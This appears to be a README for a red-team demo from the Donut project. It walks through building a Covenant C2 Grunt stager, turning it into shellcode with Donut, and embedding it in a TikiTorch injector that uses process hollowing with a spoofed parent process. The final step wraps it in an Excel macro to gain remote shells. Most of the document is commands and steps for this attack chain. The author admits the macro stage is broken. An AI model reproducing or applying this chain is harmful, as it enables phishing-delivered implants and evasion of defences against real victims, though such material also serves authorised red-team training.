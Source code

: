 *NOTE: THIS DEMO DOESN'T WORK! BECAUSE F$$$ THE DEMO GODS. All of my shit (and rasta's) works fine. Both the other shit (made by other people) doesn't. Basically TikiTorch and Donut are fine, but I don't have any good stagers to exec Assemblies or shellcode from a macro. Could probably do it in Excel4.0 but meh. Whatever, I may fix this later but don't use it for now.*

# Overview

This demo is complicated but demonstrates the depth of tradecraft possible with Donut in combination with other tools and frameworks. The steps we will follow are:

1) Setup Covenant and prove that we can get Grunts running on the target box.
2) Create a Grunt EXE and generate shellcode that runs it.
3) Prepare a .NET Assembly based on TikiTorch by rastamouse. It will create an iexplore.exe process with a spoofed parent of explorer.exe. Then it will inject shellcode into that new process through a variant of Process Hollowing. Embed the Grunt shellcode into this Assembly.
4) Genenerate shellcode from the injector .NET Assembly.
5) Use MaliciousMacroMSBuild to generate VBA that runs this shellcode through VBA in a Microsoft Office document.
6) Add the VBA macro to an Excel document to run on startup.
7) Open the document and run the macro. Get shellz.

# Preparing Covenant

IF IT HAS NOT BEEN RUN BEFORE, start the Covenant docker image with:
```
cd /testing/Covenant/Covenant
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v /testing/Covenant/Covenant/Data:/app/Data covenant
```

IF IT HAS BEEN RUN BEFORE, start the Covenant docker image with:
```
docker start covenant
```

Visit `https://192.168.254.136:7443/`in your browser. Go to Listeners, set the proper Connect IP and start the Listener. Go to Launchers > Binary. Select .NET v4.0 as the target version, and generate a launcher. Download the new launcher to your Demo folder or use the one already there.

Inside the Demo folder, generate the shellcode for the Grunt:
```
.\donut.exe -f .\GruntStager.exe -e
```

The base-64 encoded copy should be in your clipboard if you are doing this on Windows. Otherwise, base64-encode the payload. For safe-keeping, keep the copy in Notepad or another text editor.

Test that the shellcode works by running:
```
.\loader.exe .\instance
```

If it worked, there should now be a new Grunt registered with Covenant and running in the `loader` process.

# Preparing the Payload

Now we will create a TikiTorch injector for the shellcode that we generated above, using the guide on Rasta's blog (https://rastamouse.me/2019/08/covenant-donut-tikitorch/).

```
cd TikiTorch-master
. .\Get-CompressedShellcode.ps1
Get-CompressedShellcode -inFile C:\...\05-Covenant\loader.bin | clip
```

Open up the TikiSpawn project in the TikiTorch solution. Open `Program.cs` and replace the compressed shellcode with that from above.

Build it as a release version. To test that it works, run the following in PowerShell:

```powershell
cd TikiTorch-master\TikiSpawn\bin\Release

[System.Reflection.Assembly]::LoadFile("C:\...\donut\demos\05-Covenant\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll")

[TikiSpawn]::Flame()
```

Check Covenant to see if you have a callback.

# Generating the Shellcode

Now we will generate the shellcode for the TikiSpawn DLL that we created above.

```
cd ..\..\..\..\
.\donut.exe -f .\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll -c TikiSpawn -m Flame
```

Test the shellcode with:
```
.\loader.exe .\instance
```

# Generating the Macro

```
python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba
```
